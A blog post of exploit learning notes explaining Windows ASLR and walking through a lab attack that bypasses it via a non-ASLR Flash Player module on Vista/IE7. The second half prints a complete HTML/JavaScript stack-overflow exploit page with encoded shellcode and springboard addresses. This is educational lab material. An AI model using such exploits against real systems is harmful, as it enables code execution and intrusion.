 ```yaml
---
title: Exploit learning notes 017 ASLR Introduction
description: introduction to ASLR technology and simple attack ideas
date: 2020-11-24 21:12:00+0800
categories:
    - Exploit
tags:
    - Windows
    - ASLR
---
```


Source: [Moeomu's blog](/posts/exploit-learning-notes-017-aslr-introduction/)

## Introduction to ASLR techniques

> Throughout, all of the previously described vulnerability exploitation methods share a common feature: they all require the identification of a clear jump address. Whether it is a generic springboard instruction such as JMP ESP or the various instructions used by Ret2Libc, we need to determine the entry point of this instruction first. As the saying goes, Microsoft's ASLR (Address Space Layout Randomization) technology is a protection mechanism that interferes with shellcode positioning by no longer using a fixed base address to load the program
>
> In fact, the concept of ASLR has been introduced in the Windows XP era, but the ASLR function on XP is very limited, only a simple randomization of PEB and TEB, but no randomization of the module load base address, until Windows Vista appeared, ASLR really began to work!
>
> Similar to SafeSEH, ASLR implementation requires both program support and OS support, where program support is not required.

- Microsoft has added the `/dynamicbase` linking option since Visual Studio 2005 SP1 to help us with this task. We just need to enable the `/ddynmicbase` linking option when we compile the program, and the compiled program will support ASLR

### Image randomization

- Image randomization is the process of randomizing the virtual address of the PE file loaded when it is mapped to memory, this address is determined at system startup and will change after system reboot
- Probably for compatibility reasons, Microsoft has set a switch for image randomization in the system, which users can set by setting the registry key `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SessionM anager\MemoryManagement\ MoveImages` key to set the working mode of image randomization
  - When set to `0`, image randomization is disabled
  - When set to `-1`, randomizable images are forced to be processed with or without the `IMAGE_DLL_CHARACTERISTICS_DYNAMIC_BASE` flag set
  - Normal mode of operation when set to other values, only images with the randomized processing flag are processed
  - If `MoveImages` does not exist in the registry, you can manually create a value with the name `MoveImages` and the type `DWORD` and set its value as needed

### Stack randomization

- This measure is to randomly select the base address of the stack when the program is running. The difference with image base randomization is that the base address of the stack is not determined when the system is started, but when the program is opened, which means that the base address of the stack is different for any two runs of the same program, and thus the location of each variable in memory is not determined.
- Compile the following program in VS2008, run it twice on XP and Vista, and get the following result

```cpp
int main()
{
  char* heap = (char *)malloc(100);
  char stack[100];
  printf("Address of heap:%#0.4x\nAddress of stack:%#0.4x", heap, stack);
  getchar();

  return 0;
}
```

![Windows Vista](./Windows%20Vista.png)
![Windows XP](./Windows%20XP.png)

- As you can see, the heap addresses are far apart on Vista, while they are identical on XP

### Randomization of PEB and TEB

- Getting the TEB and PEB of the current process is simple, the TEB is stored at `FS:0` and `FS:[0x18]` and the PEB is stored at the TEB offset `0x30`, you can get the TEB and PEB of the current process by the following code

```cpp
int main()
{
    unsigned int teb;
    unsigned int peb;

    __asm
    {
        mov eax, FS:[0x18]
        mov teb, eax
        mov eax, dword ptr[eax+0x30]
        mov peb, eax
    }
    printf("PEB:%#x\nTEB:%#x", peb, teb);
    getchar();

    return 0;
}
```

- Test run on Vista, the results are as shown

![PEB-TEB-random-Vista](./PEB-TEB-random-Vista.png)

- As you can see, the result is very poor, the PEB address is only randomized by one byte, and it is still very regular, the TEB is basically unchanged

### Defects of ASLR

- It is not difficult to see that when ASLR randomizes the image, although the module load base address has changed, but the entry point of each module's lower two bytes will not change, for example: the original base address: `0x00401234`, after randomization the base address becomes: `0x67291234`, so you can use this to attack it

## Attack the module without ASLR enabled

### Preparation

> Experimental environment: Windows Vista SP0, IE7, Adobe Flash Player 9.0.124

- Although the book requires the use of version 9.0.262, but I really can not find it, so I will use 9.0.124 instead, [click here to download](https://pan.moeomu.com/Tutorial/0Day安全-资料/flashplayer9r124_winax.exe)
- The vulnerable OCX control has already been compiled in the previous experiment, so use that one, [click here to download](https://pan.moeomu.com/Tutorial/0Day安全-资料/VulnerAX_SEH/VulnerAX_SEH.ocx), this control ctrl class object id: `ACA3927C-6BD1-4B4E-8697-72481279AAEC`

### Steps

- Reboot the system to see the ASLR module enabled

![ASLR not enabled status](./ASLR%20not%20enabled%20status.png)

- Experimental control is not enabled GS
- Load POC page and Flash9k.ocx via IE7
- There is a stack overflow vulnerability in the function test, which aims to overwrite the return address of the function
- Because Flash9k.ocx is not ASLR enabled, the load base address is fixed, so you can search for a suitable springboard instruction inside to jump to shellcode
- IE7's DEP is turned off, so the impact of DEP is not considered
- Since the attack is achieved by overwriting the return address of the function, the best springboard instruction is JMP ESP
- `0x301D606B` is also `JMP ESP`, which will jump to the head of the string after execution, but the problem is that the four bytes of `6B 60 1D 30` constitute exactly one line of assembly instruction `imul esp,dword ptr ds:[eax+0x1D],0x30`, which will multiply the last two operands and subsequently put them into the first operand So it needs to keep the value of `[eax+0x1D]` correct, and currently eax is not pointing to a valid address, so it needs to fix eax
- Unfortunately, there is no suitable instruction for fixing eax, so change the address
- `0x303911D3` is also `JMP ESP`, but the assembly code it consists of will read both EC and EAX, so both registers need to be repaired, not feasible, change instruction
- `JMP ESP` is not available, use `JMP ESI` instead, address `0x3000DCD2` contains 0, directly excluded, address `0x302420C3` the last byte is retn, can not be used, excluded, address `0x3028EE6E` assembly code will directly cause an exception, excluded, this instruction is also no longer suitable, so look for other suitable instruction
- The `CALL ESP` at address `0x300942F2` seems to be suitable, it will also increase the esp by 8 bytes to avoid the garbage data.
- Here is the shellcode after the change

```html
<object classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=9,0,28,0" width="160" height="260">
<param name="movie" value="1.swf" />
<param name="quality" value="high" />
<embed src="1.swf" quality="high" pluginspage="http://www.adobe.com/shockwave/download/download.cgi?P1_Prod_Version=ShockwaveFlash" type="application/x-shockwave-flash" width="160" height="260">
</embed>
</object>

<object classid="clsid:ACA3927C-6BD1-4B4E-8697-72481279AAEC" id="test">
</object>

<script>
	var s = "\u9090";

	while (s.length < 54)
	{
		s += "\u9090";
	}

	s += "\u42F2\u3009";
	s += "\u9090\u9090";
	s += "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38\ua975\udb33\u6853\u616B\u6F6F\u4D68\u7369\u8B61\u53c4\u5050\uff53\ufc57\uff53\uf857";

	test.test(s);
</script>

</body>
</html>
```

- As shown in the picture, reboot the system, the shellcode runs normally, which means the attack on ASLR is successful

![shellcode run successfully](./shellcode%20run%20successfully.png)

